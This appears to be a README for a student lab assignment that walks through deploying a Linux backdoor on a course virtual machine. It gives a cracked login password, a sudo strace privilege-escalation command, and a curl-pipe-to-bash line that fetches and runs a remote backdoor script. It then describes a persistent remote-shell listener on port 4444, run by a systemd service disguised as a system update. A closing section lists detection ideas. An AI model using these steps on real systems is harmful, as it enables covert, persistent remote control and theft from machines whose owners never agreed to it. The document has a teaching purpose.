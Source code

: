 # Project

Project File Overview<br><br>
Bash Scripts (Deployed on Target):

- backdoor: Deployment script

- sys-upd: Downloads and executes the server

- sys-upd.service: systemd service unit file

Python Scripts:

- sys.py: Backdoor listener (server side)

- access.py: Client interface (run from attacker machine)

# A) how to install it in the week4 virtual machine

Enable the host to communicate with the VM over port 4444, add this rule in VirtualBox:

Go to Settings > Network > Adapter 1 → click Port Forwarding

Add the following rule:<br>
Name: backdoor-link<br>
Protocol: TCP<br>
Host IP: 127.0.0.1<br>
Host Port: 4444<br>
Guest IP: (leave blank or default)<br>
Guest Port: 4444<br>

___________________________________

ssh into the week4 virtual machine:<br>
User: user<br>
Password: hill<br>

Note: (I analyzed the .pcapng file in Wireshark and identified an HTTP response containing user data. A hashed password for the user user stood out. Using John the Ripper with the rockyou.txt wordlist, I successfully cracked the hash and retrieved the password: hill.)

___________________________________


## Escalate Privileges
To escalate privileges use this command:<br><br>
Command: sudo strace -o /dev/null /bin/bash<br>
Command: cd (Change Directory)<br>
Command: curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bash/backdoor | bash<br>

___________________________________


Once this done, Clone the reopsitory in your system and navigate from terminal to Python folder directory and run <br>
`python sys.py`

___________________________________

# B) how your backdoor works internally

- Our backdoor operates by deploying a persistent listener on the target machine using a Bash script (sys-upd) managed by a systemd service (sys-upd.service). This script opens TCP port 4444 and runs the Python server (sys.py) which continuously listens for incoming connections. 

- When a connection is received, it prompts for a password (week4) to authenticate the client. Upon successful login, the server receives and executes shell commands from the client (access.py) and sends back the results. 

- All communication is socket-based and occurs over the specified port, enabling the attacker to remotely control the host shell in real time while maintaining persistence across reboots.

___________________________________

# C) how your backdoor works internally

1. Remote Shell Access

- The sys.py script binds to port 4444 and listens for incoming connections. Once authenticated, it enters a loop waiting for shell commands from the attacker. The command is executed via subprocess.Popen() and results are sent back to the attacker.

2. Persistence

- Persistence is achieved using a systemd service (sys-upd.service). The backdoor is enabled to auto-start on boot using systemctl enable sys-upd, ensuring the listener runs continuously.

3. Configuration to get commands from:

- Commands are received over the network socket (TCP on port 4444). The sys.py server waits for incoming commands from the client and executes them directly.

4. Authentication

- The backdoor requires a password (week4) before allowing shell access. If the password is incorrect, the connection is closed and access is denied.

5. Hiding from Detection

- The backdoor is disguised as a system update script: sys-upd. It is placed in the /root directory and registered as a systemd service with a generic name.. Minimal console output and error handling are included to avoid raising suspicion.

___________________________________

# D) ideas on how yourbackdoor could be detected.

- The backdoor can be detected using tools like Wireshark by identifying unusual traffic on port 4444.It may also be exposed through system audits by spotting suspicious services like sys-upd.service or by detecting scripts fetched from GitHub. Security tools or EDRs could flag the listener's behavior of executing remote shell commands.


___________________________________


# Bonus Task:

Make sure [Escalate Privileges](#escalate-privileges) is done.

A script or program that will detect if the host is infected with your backdoor

Download the detection script<br><br>
curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bonus/detect_backdoor.sh -o detect_backdoor.sh

Make the script executable <br><br>
chmod +x detect_backdoor.sh

Run the script <br><br>
./detect_backdoor.sh

